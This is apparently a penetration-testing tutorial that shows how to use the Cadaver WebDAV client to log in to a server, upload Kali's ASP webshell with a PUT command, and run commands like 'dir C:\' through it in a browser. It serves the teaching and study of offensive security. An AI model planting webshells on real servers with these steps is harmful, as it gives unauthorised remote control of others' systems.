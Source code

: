 
### Cadaver

Cadaver is a tool for WebDAV clients that lets us upload and download files from the WebDav directory. Also comes pre-installed on most penetration testing distributions like Kali and Parrot OS.
```
cadaver <target_location>
```

Example:
```
cadaver http://10.16.25.85/webdav/
```

You'd then be promoted for the username and password

```
Username: user
Password: rando_pass
```

You'll be given a psuedo shell to interact with the server | `dav:/directory/>`

##### Upload the Webshell using Cadaver

We can upload a webshell to get some kind of command execution on the target system. A webshell is a script or program uploaded to a web server, which can allow us to remotely execute commands, manipulate files, or access the server's resources. It essentially serves as a backdoor, giving us control over the server.  

1. **Find the Webshell:** Kali Linux comes pre-packaged with various webshells grouped by programming languages including `asp, aspx, cfm, jsp, perl, php `. They can be found in:
```
/usr/share/webshells/
```

Kali has a webshell for asp located at :
```
/usr/share/webshells/asp/webshell.asp
```

2. **Upload the Webshell to the WebDav server**: This can be uploaded through cadaver to the WebDav Server using a PUT command:
```
put /usr/share/webshells/asp/webshell.asp
```

3. **Execute the Webshell script:**  Once the webshell has been uploaded, navigate to that  file location in the WebDav directory it was uploaded to from the browser. So, if it was uploaded to `/uploads/` you'd visit `http://targetsite.com/uploads/webshell.asp` from the browser, click on the file to trigger the script.
4. **Interact with the Server**:  Webshells normally comes with a user-friendly interface like input fields/search boxes that allows attackers to interact with the compromised server. After executing the `webshell.asp` script, there should be a search box which would let you run commands on the target system where the output would. We can do anything like searching for files, executing shell commands, or navigating directories. 

- List directory content with `dir`
```
dir C:\
```
